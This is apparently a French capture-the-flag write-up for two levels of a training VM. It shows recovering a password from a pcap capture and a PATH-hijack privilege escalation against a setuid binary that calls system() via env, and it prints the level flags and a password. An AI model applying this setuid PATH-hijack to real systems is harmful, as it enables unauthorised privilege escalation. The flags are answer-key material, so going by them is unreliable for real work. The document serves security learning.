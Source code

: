 ### Flag: `f2av5il02puano7naaf6adaaf`

---

## Level02

On a un fichier level02.pcap. Les fichiers pcap sont des dumps de communications TCP. Avec wireshark on peut faire clic droit -> follow sur un des paquets pour mieux comprendre ce qu'il se passe.

```
$> su flag02
Password: ft_waNDReL0L
```

### Flag: `kooda2puivaav1idi4f57q8iq`

---

## Level03

```
$> ls -la
[...]
-rwsr-sr-x 1 flag03 level03 XX XX level03
[...]
```

On a un fichier level03, qui est owned par flag03 et qui utilise `setuid()`.

```
$> ./level03
Exploit me
$> strings level03
[...]
/usr/bin/env echo Exploit me
[...]
system
[...]
```

On deduit qu'il y a un appel a `system` de la sorte:
`system("/usr/bin/env echo Exploit me")`.<br />
On a juste a creer un lien sur getflag dans /tmp/echo puis ajouter /tmp a l'env.

```
$> ln -s /bin/getflag /tmp/echo
$> PATH=/tmp:$PATH
$> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### Flag: `qi0maab88jeaj46qoumi7maus`

---
